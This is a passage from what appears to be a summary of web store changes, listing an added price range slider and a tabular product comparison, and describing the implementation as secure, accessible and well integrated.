  1. **Price Range Slider**: Added an intuitive slider for filtering products by budget.
  2. **Enhanced Product Comparison**: Implemented a clear, tabular comparison of product attributes.
- The implementation ensures a secure, accessible, and user-friendly experience, with robust error handling and responsive design. All changes are integrated seamlessly into the existing codebase, maintaining consistency and functionality.
